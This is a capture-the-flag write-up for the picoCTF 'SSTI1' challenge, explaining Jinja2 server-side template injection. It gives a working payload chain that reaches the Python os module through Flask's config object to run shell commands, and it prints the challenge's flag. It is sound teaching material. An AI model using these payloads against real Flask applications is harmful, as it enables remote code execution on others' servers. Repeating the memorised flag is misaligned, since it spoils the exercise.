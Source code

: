 ### SSTI1

**Description:**  
We are presented with a web challenge that contains a Server-Side Template Injection (SSTI) vulnerability.  
In SSTI, the server renders templates using engines like **Jinja2**. If the developer directly injects user input into templates without validation, it may lead to code execution.

For example:
```html
<p>Hello, {{ nome }}!</p>
```
If the server substitutes `{{ nome }}` with user-provided content directly, like `{{7*7}}`, and renders it as code, it may execute the expression, which indicates a vulnerability.

**Approach:**

1. **Test whether the input is being executed as code:**
   ```jinja2
   {{7*7}}
   ```
   - This expression checks if the server is evaluating input.
   - If the result is `49`, then the template engine is executing injected code (SSTI is active).
   - If it returns `{{7*7}}`, the input is treated as plain text, not vulnerable.

   Output:
   ```
   49
   ```
   The server responded with `49`, confirming SSTI is possible.

2. **Check for internal Flask configuration:**
   ```jinja2
   {{ config.items() }}
   ```
   - `config` is a Flask object that holds internal configuration.
   - Dumping `config.items()` shows settings like `DEBUG`, `SECRET_KEY`, etc.
   - This confirms that the app uses Flask + Jinja2, and provides info about the environment.

   Output:
   ```
   ('DEBUG', False), ('SECRET_KEY', None), ...
   ```
   This step confirms the backend uses Flask with Jinja2, so we know Python-based payloads will work. It prepares us to safely execute system commands next, which is essential to locate the flag.

3. **Attempt command execution through Python built-ins:**
   ```jinja2
   {{ config.__class__.__init__.__globals__['__builtins__']['__import__']('os').popen('ls /').read() }}
   ```
   This command performs a **Remote Code Execution (RCE)** by leveraging Python introspection:

   - `config` is a Flask object available in the template context.
   - `config.__class__.__init__.__globals__` accesses the global namespace of the `__init__` method’s module.
   - `['__builtins__']['__import__']('os')` dynamically imports the Python `os` module.
   - `os.popen('ls /')` executes the shell command `ls /` to list the root directory.
   - `.read()` reads and returns the output of the command.

   This payload is commonly used in Jinja2 SSTI to escalate from template injection to full command execution on the server.

   Output:
   ```
   bin  boot  challenge  dev  etc  home  lib ...
   ```

4. **Search for the flag:**
   ```jinja2
   {{ config.__class__.__init__.__globals__['__builtins__']['__import__']('os').popen('grep picoCTF /challenge/*').read() }}
   ```
   - This command searches recursively for the string `picoCTF` inside `/challenge/*`.
   - Since CTF flags follow the `picoCTF{}` format, this can help locate the flag.

   Output:
   ```
   /challenge/flag:picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
   ```

5. **Flag found:**
   ```
   picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
   ```


